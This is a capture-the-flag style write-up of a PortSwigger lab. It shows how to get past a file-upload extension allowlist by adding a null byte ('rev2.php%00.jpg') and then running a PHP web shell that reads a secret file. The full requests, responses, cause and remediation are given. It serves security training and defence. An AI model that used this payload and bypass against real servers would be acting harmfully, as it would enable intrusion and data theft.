



# Web shell upload via obfuscated file extension (null byte)

**Lab:** PortSwigger Web Security Academy — *Web shell upload via obfuscated file extension* (Practitioner).

This upload filter does enforce an **extension allowlist** — only `.jpg`/`.png` are accepted — which is normally a much stronger control than a blacklist. The flaw is in *how* that extension is checked versus how the file is ultimately saved.

## 1. Confirm the filter rejects a plain `.php` upload

Uploading the web shell with a straightforward `.php` filename is rejected outright:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```http
POST /my-account/avatar HTTP/2
...
Content-Disposition: form-data; name="avatar"; filename="rev2.php"
```

```text
HTTP/2 403 Forbidden
Sorry, only JPG & PNG files are allowed
```



## 2. Append a null byte before an allowed extension

The validation logic checks the filename *string* for a trailing `.jpg`/`.png`, but the underlying filesystem/language runtime treats a `%00` (null byte) in a string as a terminator — everything after it is dropped when the file is actually saved. Appending `%00.jpg` after the real extension satisfies the validator (the string still *ends* in `.jpg`) while the file is written to disk as just `rev2.php`:

```http
Content-Disposition: form-data; name="avatar"; filename="rev2.php%00.jpg"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

The server accepts the upload and reports the file saved under its real, executable name:

```text
HTTP/2 200 OK
The file avatars/rev2.php has been uploaded.
```



## 3. Request the web shell and read the secret

```text
GET /files/avatars/rev2.php HTTP/2
```

The server executes the saved `.php` file and returns the contents of `/home/carlos/secret`.



## 4. Submit the secret

Paste the leaked value into the lab's solution field.

## Why it works

The validation step and the file-saving step disagree about where a filename ends. Validation (often a higher-level, string-aware language) sees the whole string, including everything after `%00`, and only checks that it *ends* with an allowed extension. The underlying save routine — frequently a lower-level OS/filesystem call in C or a C-backed library — treats the null byte as a C-style string terminator and truncates the name there. The result is a filename that reads as safe to the validator and is saved as dangerous on disk. (Most current language runtimes have patched this specific null-byte-in-filename behavior, but it remains a canonical example of validation/execution-layer mismatch, and analogous mismatches — trailing dots, trailing spaces, double extensions, Unicode normalization — are still live in various stacks.)

## Remediation

- Validate and save the file based on the **same, single parsed value** — determine the extension once, in the layer that will actually use it, rather than trusting a string-level check performed earlier in the pipeline.
- Re-derive the extension from verified file content (magic bytes) rather than trusting any part of the client-supplied filename, including the apparent suffix.
- Keep language runtimes and the underlying OS/filesystem libraries patched; this class of bug is routinely closed by upstream fixes to how embedded null bytes are handled in filename APIs.
